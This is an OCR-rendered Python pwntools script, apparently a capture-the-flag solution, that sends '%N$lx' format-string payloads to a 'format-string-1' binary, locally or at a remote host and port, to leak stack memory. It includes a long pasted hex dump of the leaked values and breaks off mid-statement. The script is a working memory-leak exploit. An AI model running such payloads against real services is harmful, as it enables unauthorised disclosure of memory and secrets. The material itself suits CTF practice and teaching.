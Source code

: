|**import** pwn<br>**import** argparse<br><br>pwn.context.log\_level = "CRITICAL"<br><br>parser=argparse.ArgumentParser()<br>parser.add\_argument("destination", type=str, choices={"local", "remote"})<br>parser.add\_argument("--target", "-t", type=str, default="", required=**False**)<br>parser.add\_argument("--port", "-p", type=int, default=0, required=**False**)<br>args=parser.parse\_args()<br><br>elf=pwn.ELF("./format-string-1")<br><br><br>new\_eip=pwn.p32(elf.symbols["win"])<br><br>**for** i **in** range(1, 256):<br>`	`payload =b"".join([<br>`    	`b"%" + str(i).encode("utf-8") + b"$lx",<br>`    	`]<br>`	`)<br><br>`	`**if** args.destination == "local":<br>`    	`p=elf.process()<br>`	`**elif** args.destination == "remote":<br>`    	`**if** **not** args.target **or** **not** args.port:<br>`        	`pwn.warning("Give target and connection port")<br>`        	`exit()<br>`        	`p = pwn.remote(args.target, args.port)<br><br>`	`p.recvuntil(b'')<br>`	`p.sendline(payload)<br>`	`answer = p.recvall().decode('latin-1')<br>`	`print(answer)<br><br>encode=""<br>encode+="".join( x **for** x **in** "402118-0-7f4438dcea00-0-11a5880-a347834-7ffd682d13a0-7f4438bbfe60-7f4438de44d0-1-7ffd682d1470-0-0-7b4654436f636970-355f31346d316e34-3478345f33317937-31395f673431665f-7d653464663533-7-7f4438de68d8-2300000007-206e693374307250-a336c797453-9-7f4438df7de9-7f4438bc8098-7f4438de44d0-0-7ffd682d1480-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-0-11a3680-1-7f4438be1d90-0-4011f6-100000000-7ffd682d18f8-0-cbb36f4493fa1e15-7ffd682d18f8-4011f6-403e18-7f4438e20040-3449bf1ebc181e15-353b1e38a9701e15-7f4400000000-0-0-0-0-4f23a51a36a64b00-0-7f4438be1e40-7ffd682d1908-403e18-7f4438e212e0-0-0-401110-7ffd682d18f0-0-0-401135-7ffd682d18e8-1c-1-7ffd682d1ea6-0-7ffd682d1ec1-7ffd682d1ed4-7ffd682d1edc-7ffd682d1ef9-7ffd682d1f04-7ffd682d1f19-7ffd682d1f37-7ffd682d1f4d-7ffd682d1f61-7ffd682d1f72-7ffd682d1fb4-7ffd682d1fc3-7ffd682d1fd0-0-21-7ffd683ec000-33-e30-10-1f8bfbff-6-1000-11-64-3-400040-4-38-5-d-7-7f4438de6000-8-0-9-401110-b-0-c-0-d-0-e-0-17-0-19-7ffd682d1ae9-1a-2-1f-7ffd682d1fdd-f-7ffd682d1af9-1b-1c-1c-20-0-0-".split("-"))<br>print(encode)<br>memory =